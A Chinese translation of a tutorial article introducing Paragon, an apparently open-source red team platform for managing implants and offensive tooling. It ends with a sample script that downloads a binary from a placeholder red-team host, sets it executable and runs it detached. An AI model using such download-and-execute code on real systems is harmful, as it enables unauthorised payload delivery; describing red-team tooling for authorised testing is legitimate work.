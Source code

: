 # Paragon:以统一攻势为目标的红队交战平台

> 原文：<https://kalilinuxtutorials.com/paragon/>

[![Paragon : Red Team Engagement Platform With The Goal Of Unifying Offensive](img//2d477d8b37a5c1c19076338089e00b65.png "Paragon : Red Team Engagement Platform With The Goal Of Unifying Offensive")](https://1.bp.blogspot.com/-s2DZNJNfD-k/YJl48Tq4JZI/AAAAAAAAJDU/donDZ5PNZQc9EagzfZDjRzJVx9JcoZ2mACLcBGAsYHQ/s728/Paragon%25281%2529.png)

**Paragon** 是一个红队交战平台。它旨在将攻击性工具统一在一个简单的 UI 后面，抽象出许多后端工作，使运营商能够专注于编写植入程序，花更少的时间担心数据库和 css。该库还提供了一些已经与 Paragon 集成的进攻性工具，可以在交战中使用。

这个存储库仍在大量开发中，还没有准备好投入生产使用。当它被认为是稳定的，一个 V1.0.0 标签将被释放。在此之前，随着我们不断简化设计，API 可能会遇到突破性的变化。如果你想帮助我们更快达到这个里程碑，请阅读下面的开发者文档。

**特色亮点**

*   轻松集成定制工具，在**单一界面**下统一操作
*   使用提供的 GraphQL API 查询红队知识图
*   用于低延迟自动化和实时处理的事件发射
*   用于部署、后期开发等的类似 Python 的脚本语言
*   包括跨平台植入和部署
*   记录操作员活动，以便方便地汇总到项目后报告中进行审查

**入门**

可以通过克隆存储库并运行`**docker-compose up**`来设置一个快速演示实例。在你的浏览器中打开 [127.0.0.1:80](http://127.0.0.1/) 开始吧！

所使用的映像可以在 docker-hub 上获得，并且可以从 docker-compose 文件进行配置以用于生产部署。

**组件概述**

**脚本语言**

这个库中的大多数组件依赖于一种类似 Python 的脚本语言，这种语言能够对它们的行为进行强大的控制和定制。这种语言是谷歌 starlark T3 的修改版本，为运营商扩展了跨平台功能。这也使得像代理和下载程序(下面讨论)这样的工具能够在不依赖于系统二进制文件( **`curl`、`bash`** 等)的情况下执行任务。在 Golang 中，所有的操作都是作为代码执行的，所以向脚本环境添加额外的功能是很直观的。以下是一个脚本示例:

```
# Download a file via https, execute it, and don't keep it as a child process.
load("sys", "request")

new_bin = "/tmp/kqwncWECaaV"
request("https://library.redteam.tld", writeToFile=new_bin)

# set new_bin permissions to 0755
chmod(new_bin, ownerRead=True, ownerWrite=True, ownerExec=True, groupRead=True, groupExec=True, worldRead=True, worldExec=True)
exec(new_bin, disown=True)

```
